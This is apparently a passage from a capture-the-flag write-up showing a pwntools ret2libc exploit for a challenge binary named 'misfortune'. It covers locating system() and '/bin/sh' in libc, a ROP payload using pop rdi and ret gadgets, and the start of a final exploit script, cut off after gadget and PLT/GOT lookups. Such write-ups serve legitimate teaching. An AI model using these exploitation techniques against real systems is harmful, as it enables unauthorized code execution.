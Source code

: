 ```python
system = libc.symbols.system                  # Grab system() from libc symbols
bin_sh = next(libc.search(b'/bin/sh\x00'))    # Search for '/bin/sh' string in libc
success(f'{hex(system)=}')                    # Print out system() address
success(f'{hex(bin_sh)=}')                    # Print out '/bin/shell address
```

Viewing `system()` and string, `'/bin/sh'` addresses.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Obtaining valid external function addresses and strings from the dynamically loaded library, <code>libc</code>.</p></figcaption></figure>

We now have everything we need to pwn this binary.

Lastly, we need to build out another payload that will be sent after our new prompt from `main()`.

```python
    # Payload again because we are being asked how we want to divert flow of execution in another prompt
    payload = b''.join([                        # Use join() to join all elements in a list into one string
    b'A'*offset,
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(pop_rdi),                               # ROP Gadget to pop '/bin/sh' into the RDI register
    p64(bin_sh),                                
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(system),                                # Call system() from libc
    ])

    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)
```

## Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

# ELF Object
exe = ELF("./misfortune_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")


# ROP Object
rop = ROP(exe)                                       # You can use this to "pull" apart different pieces of your binary
pop_rdi = rop.find_gadget(['pop rdi'])[0]            # Find pop_rdi gadget
ret = rop.find_gadget(['ret'])[0]                    # Find ret gadget
success(f'{hex(pop_rdi)=}')                          # Print out pop_rdi gadget in hex
success(f'{hex(ret)=}')                              # Print out ret gadget in hex
main_function = exe.symbols.main                     # Execute main()
puts_plt = exe.plt.puts                              # Obtain puts() from PLT
alarm_got = exe.got.alarm                            # Obtain alarm() from GOT
exit_plt = exe.plt.exit
success(f'{hex(puts_plt)=}')                         # Print location of puts() from PLT
success(f'{hex(alarm_got)=}')                        # Print location of alarm() from GOT
```